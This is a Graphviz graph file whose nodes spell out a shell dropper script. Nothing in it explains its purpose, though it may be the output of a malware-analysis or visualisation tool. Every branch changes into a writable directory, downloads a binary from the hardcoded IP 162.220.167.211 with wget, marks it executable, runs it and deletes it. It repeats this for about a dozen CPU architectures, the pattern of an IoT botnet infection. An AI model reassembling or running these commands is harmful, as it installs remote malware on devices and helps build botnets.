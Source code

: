 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://162.220.167.211/xandxmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x xandxmips "];
12 -> 14 [label=";,"];
14 [label="./xandxmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf xandxmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://162.220.167.211/xandxmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x xandxmipsel "];
30 -> 32 [label=";,"];
32 [label="./xandxmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf xandxmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://162.220.167.211/xandxsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x xandxsh4 "];
48 -> 50 [label=";,"];
50 [label="./xandxsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf xandxsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://162.220.167.211/xandxx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x xandxx86 "];
66 -> 68 [label=";,"];
68 [label="./xandxx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf xandxx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://162.220.167.211/xandxarmv6l "];
82 -> 84 [label=";,"];
84 [label="chmod +x xandxarmv6l "];
84 -> 86 [label=";,"];
86 [label="./xandxarmv6l "];
86 -> 88 [label=";,"];
88 [label="rm -rf xandxarmv6l "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://162.220.167.211/xandxi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x xandxi686 "];
102 -> 104 [label=";,"];
104 [label="./xandxi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf xandxi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://162.220.167.211/xandxppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x xandxppc "];
120 -> 122 [label=";,"];
122 [label="./xandxppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf xandxppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://162.220.167.211/xandx1586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x xandx1586 "];
138 -> 140 [label=";,"];
140 [label="./xandx1586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf xandx1586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://162.220.167.211/xandxm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x xandxm68k "];
156 -> 158 [label=";,"];
158 [label="./xandxm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf xandxm68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://162.220.167.211/xandxsparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x xandxsparc "];
174 -> 176 [label=";,"];
176 [label="./xandxsparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf xandxsparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://162.220.167.211/xandxArmv4l "];
190 -> 192 [label=";,"];
192 [label="chmod +x xandxArmv4l "];
192 -> 194 [label=";,"];
194 [label="./xandxArmv4l "];
194 -> 196 [label=";,"];
196 [label="rm -rf xandxArmv4l "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://162.220.167.211/xandxArmv5l "];
208 -> 210 [label=";,"];
210 [label="chmod +x xandxArmv5l "];
210 -> 212 [label=";,"];
212 [label="./xandxArmv5l "];
212 -> 214 [label=";,"];
214 [label="rm -rf xandxArmv5l "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://162.220.167.211/xandxPowerpc440fp "];
226 -> 228 [label=";,"];
228 [label="chmod +x xandxPowerpc440fp "];
228 -> 230 [label=";,"];
230 [label="./xandxPowerpc440fp "];
230 -> 231 [label=";,"];
}
